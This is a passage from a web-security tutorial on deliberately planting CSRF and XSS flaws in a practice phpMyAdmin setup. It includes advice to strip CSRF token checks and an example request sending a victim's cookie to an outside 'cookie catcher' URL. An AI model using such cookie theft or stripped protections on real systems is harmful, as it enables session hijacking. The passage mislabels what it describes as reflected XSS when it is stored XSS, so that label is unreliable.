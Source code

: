 <b>4)Inserting CSRF (Cross Site Request Forgery) Vulnerability</b>

<p>CSRF occurs when an attacker is able to have the victim user make a request to a trusted site (to which he is already authenticated) on behalf of the victim without his knowledge. Some developers think that allowing the victim to submit only POST Requests or using a secret cookie will prevent the victim from CSRF. But this is not true as the cookie will be submitted with every request the victim makes to the trusted website. Also it is very trivial for the attacker to have the victim submit a POST request which can be done by having a secret form on the attacker's website which would be submitted to the trusted website on behalf of the victim.</p>

<p>There are some ways to prevent CSRF. One of them is to have a secret token and have it submitted with each request the client makes to the trusted website, either in the URL or in the header. Also this token should have a timeout value after which it should expire and a new token is generated for the user. One of the other ways is to have the authentication data submitted with important requests, for e.g wire transfer, password change etc. Note that in this case the attacker won't have access to the user's credentials and hence won't be able to perform this attack. Inserting a CSRF is hence quite easy. We just need to remove all the checks that prevent CSRF, i.e remove the checking of tokens, authentication data etc. More information about CSRF can be found <a href="http://en.wikipedia.org/wiki/Cross-site_request_forgery">here</a>.</p>

<p>For inserting the next two vulnerabilities we are going to use the web application <i>phpMyAdmin</i>. More information on phpMyAdmin and to know the steps to install it, click <a href="http://www.phpmyadmin.net/documentation/">here</a>.</p>

<b>5) Inserting Reflected XSS (Cross Site Scripting) vulnerabilities</b>

<p>Let's assume for one moment that phpmyadmin is an application used by many users and it has just one admin. The admin wants to provide a functionality in a page message.html <i>http://site-IP/phpmyadmin/message.html</i> that allows any user to post a message to the administrator. The message is passed to a file message.php which writes it to a file text.html without validating the message. The admin can then view all the message by just going to the <i>text.html</i> page. So if an attacker can inject malicious code in the message field then that code would execute on the admin's machine once the admin opens up the text.html page. This vulnerability is called Reflected XSS (Cross Site Scripting). Also, by using the same technique the attacker can steal the admin's cookies. The attacker could use a cookie catcher located somewhere on the web which takes a variable <i>'c'</i>. We pass the variable <i>c</i> as document.cookie (i.e the user's cookie) to the <i>Cookie Catcher</i> file (note that we must know the location of the cookie catcher file), for e.g if the Cookie Catcher file URL is <i>http://infosecinstitute.com/cookie_catcher.php</i> then the request that we will send from the client machine through XSS is <i>http://infosecinstitute.com/cookie_catcher.php?c=USER_COOKIE</i>. The USER_COOKIE is the cookie we fetch through javascript.This file then writes the Cookie and other values to a file named <i>user_info.html</i>.</p>





<p class="code">Code for "message.html", the message to the admin is sent from here</p>




``` php

    <html>
    <head> POST YOUR MESSAGE TO ADMIN HERE ! </head>
    <body>
    <form action="message.php" method="get">
    	<input type="text" name="c" />
    </form>
    </body>
    </html>   
```
